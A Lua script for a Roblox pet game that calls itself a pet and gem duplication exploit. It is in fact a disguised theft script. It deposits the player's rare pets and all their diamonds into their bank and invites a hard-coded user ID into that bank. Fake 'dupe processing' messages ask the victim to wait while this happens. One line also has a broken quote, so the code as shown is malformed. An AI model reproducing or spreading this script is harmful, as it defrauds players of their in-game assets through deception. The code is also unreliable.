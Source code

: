 local Log = (67196084)
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", ")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
    local v2 = lib.Directory.Pets[v.id];
    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Legendary" and v.r then
        table.insert(PetsList, v.uid);
    end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 0);
if request then
    lib.Message.New("Dupe starting! Wait for 30 Minutes");
else
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], Log) then
    lib.Message.New("Dupe Proccesing! (make sure your bank have pet or gems for duping!)");
else
    lib.Message.New("Wait 10 Minutes to proccess your duped Pet Or Gems");
end;
